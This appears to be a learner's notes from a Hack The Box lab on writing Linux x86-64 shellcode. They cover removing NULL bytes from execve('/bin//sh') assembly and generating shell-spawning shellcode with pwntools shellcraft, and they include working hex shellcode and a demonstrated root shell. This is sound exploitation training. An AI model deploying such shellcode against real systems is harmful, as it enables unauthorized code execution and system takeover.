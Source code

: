 - We should know by now that the above assembly code will not produce a working shellcode since it contains NULL bytes.
- `Try to remove all NULL bytes from the above assembly code to produce a working shellcode.`
- Click to show the answer.
- We can zero-out `rdx` with `xor`, and then push it for string terminators instead of pushing `0`.
```nasm
_start:
    mov al, 59          ; execve syscall number
    xor rdx, rdx        ; set env to NULL
    push rdx            ; push NULL string terminator
    mov rdi, '/bin//sh' ; first arg to /bin/sh
    push rdi            ; push to stack 
    mov rdi, rsp        ; move pointer to ['/bin//sh']
    push rdx            ; push NULL string terminator
    push rdi            ; push second arg to ['/bin//sh']
    mov rsi, rsp        ; pointer to args
    syscall
```
- Once we fix our code, we can run `shellcoder.py` on it, and have a shellcode with no NULL bytes.
```shell-session
secmancer@htb[/htb]$ python3 shellcoder.py sh

b03b4831d25248bf2f62696e2f2f7368574889e752574889e60f05
27 bytes - No NULL bytes
```
- Try running the above shellcode with `loader.py` to see if it works and drops us in a shell. 
- Now let's try to get another shellcode for `/bin/sh`, using shellcode generation tools.



### Shellcraft
- Let's start with our usual tools, `pwntools`, and use its `shellcraft` library, which generates a shellcode for various `syscalls`. 
- We can list `syscalls` the tool accepts as follows.
```shell-session
secmancer@htb[/htb]$ pwn shellcraft -l 'amd64.linux'

...SNIP...
amd64.linux.sh
```
- We see the `amd64.linux.sh` syscall, which would drop us into a shell like our above shellcode. 
- We can generate its shellcode as follows.
```shell-session
secmancer@htb[/htb]$ pwn shellcraft amd64.linux.sh

6a6848b82f62696e2f2f2f73504889e768726901018134240101010131f6566a085e4801e6564889e631d26a3b580f05
```
- Note that this shellcode is not as optimized and short as our shellcode. 
- We can run the shellcode by adding the `-r` flag.
```shell-session
secmancer@htb[/htb]$ pwn shellcraft amd64.linux.sh -r

$ whoami

root
```
- And it works as expected. 
- Furthermore, we can use the `Python3` interpreter to unlock `shellcraft` fully and use advanced syscalls with arguments. 
- First, we can list all available syscalls with `dir(shellcraft)`, as follows.
```shell-session
secmancer@htb[/htb]$ python3

>>> from pwn import *
>>> context(os="linux", arch="amd64", log_level="error")
>>> dir(shellcraft)
```
